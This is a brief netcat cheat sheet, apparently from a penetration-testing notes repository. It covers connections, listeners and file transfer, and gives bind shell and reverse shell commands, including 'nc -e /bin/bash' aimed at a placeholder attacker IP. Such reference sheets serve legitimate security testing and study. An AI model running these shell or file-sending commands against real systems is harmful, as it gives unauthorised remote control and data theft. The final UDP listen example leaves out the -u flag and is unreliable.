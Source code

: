 # Netcat

The Swiss Army knife of networking and security.

## Connect to remote port

```bash
nc -nv $REMOTE_IP $REMOTE_PORT
```

## Listen for a connection on all interfaces

```bash
nc -nlvp $LISTEN_PORT
```

## Listen for a connection on a particular interface

```bash
nc -nlvp $LISTEN_PORT -s $LISTEN_IP
```

## File Transfer

```bash
nc -nv $REMOTE_IP $REMOTE_PORT < $FILE_PATH
```

## File Reception

```bash
nc -nlvp $LISTEN_PORT > $FILE_PATH
```

## Bind Shell

* Target:

```bash
nc -nlvp $TARGET_LISTEN_PORT -e [/bin/bash or cmd.exe]
```

* Attacker:

```bash
nc -nv $TARGET_IP $TARGET_LISTEN_PORT
```

## Reverse Shell

* Attacker:

```bash
nc -nlvp $ATTACKER_LISTEN_PORT
```

* Target:

```bash
nc -nv $ATTACKER_IP $ATTACKER_LISTEN_PORT -e [/bin/bash or cmd.exe]
```

## Connect to a remote UDP port

```bash
nc -nuv $REMOTE_IP $REMOTE_PORT
```

## Listen for a connection on a particular UDP port

```bash
nc -nlvp $LISTEN_PORT
```
